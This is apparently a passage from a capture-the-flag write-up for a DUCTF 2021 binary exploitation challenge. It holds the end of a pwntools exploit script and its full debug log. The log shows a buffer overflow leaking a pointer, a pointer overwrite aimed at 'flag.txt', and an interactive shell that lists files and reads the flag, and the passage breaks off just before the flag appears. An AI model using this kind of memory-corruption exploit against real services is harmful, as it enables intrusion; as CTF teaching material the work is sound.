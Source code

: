 ```python
r.send(randbuf + b"B" * (0x20 - len(randbuf)) + p64(name)) 
r.recvuntil(b">")
r.sendline(b"1337")
r.recvuntil(b"guess: ")
r.sendline(b"1413698884")
r.interactive()
```

```
[+] Opening connection to pwn-2021.duc.tf on port 31907: Done
[DEBUG] Received 0x1c bytes:
    b'Welcome, what is your name?\n'
[DEBUG] Sent 0x20 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB'
[DEBUG] Received 0x24 bytes:
    b'1. Set Username\n'
    b'2. Print Username\n'
    b'> '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x4b bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 42  │AAAA│AAAA│AAAA│AAAB│
    00000020  24 e0 8e 38  77 55 0a 31  2e 20 53 65  74 20 55 73  │$··8│wU·1│. Se│t Us│
    00000030  65 72 6e 61  6d 65 0a 32  2e 20 50 72  69 6e 74 20  │erna│me·2│. Pr│int │
    00000040  55 73 65 72  6e 61 6d 65  0a 3e 20                  │User│name│·> │
    0000004b
[+] base = 0x5577388ed1c9
[+] name = 0x5577388f00a0
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x30 bytes:
    b'What would you like to change your username to?\n'
[DEBUG] Sent 0x28 bytes:
    00000000  66 6c 61 67  2e 74 78 74  00 42 42 42  42 42 42 42  │flag│.txt│·BBB│BBBB│
    00000010  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    00000020  a0 00 8f 38  77 55 00 00                            │···8│wU··│
    00000028
[DEBUG] Received 0x58 bytes:
    b'1. Set Username\n'
    b'2. Print Username\n'
    b'> Invalid choice.\n'
    b'1. Set Username\n'
    b'2. Print Username\n'
    b'> '
[DEBUG] Sent 0x5 bytes:
    b'1337\n'
[DEBUG] Received 0x7 bytes:
    b'guess: '
[DEBUG] Sent 0xb bytes:
    b'1413698884\n'
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'pwn\n'
flag.txt
pwn
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x21 bytes:
```